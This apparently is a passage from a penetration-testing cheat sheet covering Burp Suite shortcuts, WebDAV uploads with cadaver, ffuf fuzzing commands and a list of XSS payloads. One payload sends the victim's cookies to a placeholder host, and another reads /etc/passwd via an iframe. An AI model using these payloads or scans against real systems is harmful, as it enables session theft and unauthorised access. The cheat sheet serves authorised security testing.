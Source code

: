 ### Web Application Analysis

#### Burp Suite

```c
Ctrl+r          // Sending request to repeater
Ctrl+i          // Sending request to intruder
Ctrl+Shift+b    // base64 encoding
Ctrl+Shift+u    // URL decoding
```

#### Set Proxy Environment Variables

```c
export HTTP_PROXY=http://localhost:8080
export HTTPS_PROXY=https://localhost:8080
```

#### cadaver

```c
cadaver http://<RHOST>/<WEBDAV_DIRECTORY>/
```

```c
dav:/<WEBDAV_DIRECTORY>/> cd C
dav:/<WEBDAV_DIRECTORY>/C/> ls
dav:/<WEBDAV_DIRECTORY>/C/> put <FILE>
```

#### Cross-Site Scripting (XSS)

```c
<sCrIpt>alert(1)</ScRipt>
<script>alert('XSS');</script>
<script>alert(document.cookies)</script>
<script>document.querySelector('#foobar-title').textContent = '<TEXT>'</script>
<script>fetch('https://<RHOST>/steal?cookie=' + btoa(document.cookie));</script>
<script>user.changeEmail('user@domain');</script>
<iframe src=file:///etc/passwd height=1000px width=1000px></iframe>
<img src='http://<RHOST>'/>
```

#### ffuf

```c
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<RHOST>/FUZZ --fs <NUMBER> -mc all
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<RHOST>/FUZZ --fw <NUMBER> -mc all
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<RHOST>/FUZZ -mc 200,204,301,302,307,401 -o results.txt
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://<RHOST>/ -H "Host: FUZZ.<RHOST>" -fs 185
ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt -u http://<RHOST>/backups/backup_2020070416FUZZ.zip
```
